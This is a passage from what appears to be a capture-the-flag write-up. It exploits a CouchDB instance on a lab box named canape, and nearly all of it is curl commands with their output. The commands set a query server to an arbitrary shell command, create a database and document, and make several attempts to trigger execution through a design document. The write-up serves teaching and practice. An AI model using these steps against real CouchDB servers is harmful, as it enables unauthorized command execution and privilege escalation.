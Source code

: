     www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
    ""



We get back the previous value for the cmd query server, which means
success. And in the root shell, we can see it worked:



    root@canape:/home/homer/etc# diff local.ini local.ini.bk
    48c48
    < cmd = /sbin/ifconfig > /tmp/df
    ---
    > cmd =



Now, we should be able to create a db, and then a document in that db,
and the request it with a view that maps our query_server to get
execution.

Create db and document:



    www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
    ["_global_changes","_metadata","_replicator","_users","god","passwords","simpsons","vultest"]
    www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df'
    {"ok":true}
    www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
    ["_global_changes","_metadata","_replicator","_users","df","passwords","simpsons"]

    www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
    {"ok":true,"id":"zero","rev":"1-967a00dff5e02add41819138abb3284d"}



Request it in a view. The db will complain about headers, but if we work
with it, we can get a bit further:



    www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}'
    {"error":"bad_request","reason":"Referer header required."}

    www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://127.0.0.1:5984
    {"error":"bad_request","reason":"Referer header must match host."}

    www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://localhost:5984"
    {"error":"bad_content_type","reason":"Content-Type must be multipart/form-data"}

    www-data@canape:/dev/shm$ curl -X POST 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"df": {"map": ""} }, "language": "cmd"}' -H "Referer: http://localhost:5984" -H "Content-Type: multipart/form-data"
    {"error":"case_clause","reason":"undefined","ref":627893255}
